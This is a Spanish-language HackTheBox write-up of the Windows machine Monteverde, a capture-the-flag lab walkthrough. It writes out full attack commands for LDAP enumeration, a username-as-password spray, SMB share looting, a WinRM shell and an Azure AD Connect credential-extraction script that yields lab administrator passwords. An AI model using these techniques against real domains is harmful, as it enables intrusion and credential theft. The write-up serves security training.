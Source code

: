 ```yaml
---
title: HTB Monteverde Write-up (Español)
tags: [HackTheBox, Active Directory]
image: /assets/images/Monteverde/1__k1dpAMSzJOaosR1KtzrueA.png
published: true
banner: true
---
```


I cloned my writeup that was originally posted on [medium](https://medium.com/@5ubterranean/htb-monteverde-write-up-espa%C3%B1ol-298d2709ee59)

Monteverde es una máquina basada en Windows que estuvo activa desde el 11 de Enero del 2020 hasta el 13 de Junio, empezaremos enumerando usuarios con ldapsearch, probaremos un ataque por diccionario y obtendremos que un usuario usa su username también como contraseña, revisando los archivos a los que tiene acceso este usuario encontraremos credenciales de otro usuario, este nuevo usuario es parte del grupo Azure Admins, pertenecer a este grupo nos permitirá extraer la credenciales de Administrador de la base de datos presente en la máquina.

# Enumeración

Empezamos usando masscan para encontrar todos los puertos disponibles y luego usamos nmap para conseguir más información de los mismos.

```bash
masscan -e tun0 — rate=500 -p 0–65535 10.10.10.172  
nmap -sC -sV -p 49673,49675,49674,49667,9389,3268,445,53,5985,464,56439,389,3269,593,88,636,139,135, -Pn -o scan.txt 10.10.10.172

PORT      STATE SERVICE       VERSION  
53/tcp    open  domain?  
| fingerprint-strings:   
|   DNSVersionBindReqTCP:   
|     version  
|\_    bind  
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-25 02:23:28Z)  
135/tcp   open  msrpc         Microsoft Windows RPC  
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn  
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)  
445/tcp   open  microsoft-ds?  
464/tcp   open  kpasswd5?  
593/tcp   open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
636/tcp   open  tcpwrapped  
3268/tcp  open  ldap  
3269/tcp  open  tcpwrapped  
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
|\_http-server-header: Microsoft-HTTPAPI/2.0  
|\_http-title: Not Found  
9389/tcp  open  mc-nmf        .NET Message Framing  
49667/tcp open  msrpc         Microsoft Windows RPC  
49673/tcp open  ncacn\_http    Microsoft Windows RPC over HTTP 1.0  
49674/tcp open  msrpc         Microsoft Windows RPC  
49675/tcp open  msrpc         Microsoft Windows RPC  
56439/tcp open  msrpc         Microsoft Windows RPC
```

Tenemos diversos puertos abiertos, pero ya que tenemos LDAP disponible empezamos por ahí, usamos `ldapsearch`, hacemos una petición por el naming context para confirmar el dominio obtenido por nmap: `ldapsearch -x -h 10.10.10.172 -s base namingcontexts`.

![](/assets/images/Monteverde/1__prwEwmnRqPhm1r4YiQoX4A.png)


Bien, confirmamos que el dominio es MEGABANK.LOCAL, ahora enumeramos todos los usuarios disponibles, esto se hace haciendo una petición especificando que solo nos devuelva las entradas donde “objectclass” sea de tipo “user”, y filtramos para crear una lista: `ldapsearch -x -h 10.10.10.172 -b "DC=MEGABANK,DC=LOCAL" 'objectClass=user' | grep sAMAccountName | awk '{print $2}'`.

![](/assets/images/Monteverde/1__LLKhMxOlLWVk2bKvJkjKJg.png)


Los tres primeros usuarios, Guest, MONTEVERDE$ y AAD\_987d7f2f57d2 son unos creados automáticamente por el servidor, ya que no hay forma de conseguir sus contraseñas por fuerza bruta o diccionario las quitamos de la lista y la guardamos como “users.txt”, ahora usamos `crackmapexec` para atacar el servidor usando “users.txt” como lista de usuarios y contraseñas: `cme smb 10.10.10.172 -u users.txt -p users.txt`.

![](/assets/images/Monteverde/1__TtX8RgnXTFTKDqL4F0fZ7w.png)


# Ganando acceso

Encontramos que “SABatchJobs” es usado como usuario y contraseña de una cuenta, volvemos a usar `crackmapexec` para comprobar a qué cosas tiene acceso esta cuenta: `cme smb 10.10.10.172 -u SABatchJobs -p SABatchJobs -- shares`.

![](/assets/images/Monteverde/1__1sKWfvhCs7j199eVFfD2HQ.png)


Tenemos acceso de lectura a unas cuantas carpetas compartidas, en [Nest](https://medium.com/@5ubterranean/htb-nest-write-up-espa%C3%B1ol-ae4cc92a7a4f) monté las carpetas compartidas y usé `tree` para revisarlas, en este casó usaremos `smbmap` para cumplir el mismo objetivo, para esto usamos: `smbmap -H 10.10.10.172 -u SABatchJobs -p SABatchJobs -R`.

![](/assets/images/Monteverde/1__MD5FhKdRSv6nHrmsuZmjXQ.png)


Solo muestro el comienzo de la salida ya que es mucho más larga, pero esto nos cumple el mismo cometido, nos lista los contenidos de todas las carpetas compartidas a las que tenemos acceso, lo más interesante que vemos es que tenemos acceso a la carpeta compartida del usuario “mhope” en “users$”.

![](/assets/images/Monteverde/1__EEeaf2eop__UuvI4hlgfd3A.png)


Nos conectamos a la carpeta compartida usando smbclient, `smbclient \\\\10.10.10.172\\users$ -U SABatchJobs`, y descargamos el archivo “azure.xml”, al leerlo nos encontramos con una contraseña.

![](/assets/images/Monteverde/1__KnWNb88I0HBk3Gov4avGiA.png)


Si bien encontramos esta contraseña dentro de la carpeta de “mhope”, usamos crackmapexec para confirmar que no sea de otro usuario, `cme smb 10.10.10.172 -u users.txt -p '4n0therD4y@n0th3r$'`.

![](/assets/images/Monteverde/1__Mhe4WXYZIn__AaokcmLdpTA.png)


Usamos `evil-winrm` para conseguir una shell en la máquina, `evil-winrm -i 10.10.10.172 -u mhope-p '4n0therD4y@n0th3r$'`.

![](/assets/images/Monteverde/1__fG5FGRBoUC8oqnda1GnHhA.png)


Y conseguimos el “user.txt”.

# Escalación de privilegios

Revisamos a qué grupos pertenece este usuario con `whoami /all`.

![](/assets/images/Monteverde/1__0ItXSn6tKnaYiP__3JUnG2Q.png)


El grupo más interesante de estos es “Azure Admins”, buscamos formas de usar este grupo para escalar privilegios y nos encontramos este [github](https://github.com/fox-it/adconnectdump) con algunos scripts para extraer credenciales de Azure AD, este nos da un link a un [blog](https://blog.xpnsec.com/azuread-connect-for-redteam/) con un script que hace lo mismo, usaremos este último y lo guardaremos como “azuread\_decrypt\_msol.ps1”, lo descargamos a la máquina objetivo usando `python3 -m http.server`, en nuestra máquina e `Invoke-WebRequest`, en la máquina Windows, y procedemos a ejecutarlo.

![](/assets/images/Monteverde/1__r4bIgPAAJI6DC__9mRhR07w.png)


El script no funciona, y nos da una larga cadena de errores, ya que es un script podemos ejecutarlo línea por línea para encontrar la que provoca el error.

![](/assets/images/Monteverde/1__QpVhjfFs7KB8DAvMPYwVpg.png)


La segunda línea es la que provoca el error, aunque esta actúa según lo especificado en la primera, y el error nos indica que no pudo encontrar el servidor, la línea original es `$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList “Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync”`, luego de hacer unas pruebas encontramos que debemos cambiar “Data Source” el cual indica el servidor y la base de datos, por “server” y “database” que indica lo mismo pero en dos valores separados, además tenemos que agregar “Intedrated Security = True”, por lo que la primera línea ahora será: `$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList “server=localhost;database=ADSync;Initial Catalog=ADSync;Integrated Security = True”`, ahora que hemos modificado el script volvemos a subirlo a la máquina y lo ejecutamos.

![](/assets/images/Monteverde/1__M57GzvJ07oOCYVIt__STdsw.png)


Obtenemos las credenciales de administrator, Username: administrator Password: d0m@in4dminyeah!, nos conectamos con `evil-winrm`.

![](/assets/images/Monteverde/1__tIqNEfI__QmTteWr3__g__9XQ.png)


Y conseguimos el “root.txt”, con esto hemos terminado con la máquina.

# Descargo de responsabilidad

Todos los recursos brindados en este post se hicieron puramente con fines educativos y de concientización, el autor no se hace responsable por las acciones que las personas puedan realizar con el contenido del mismo.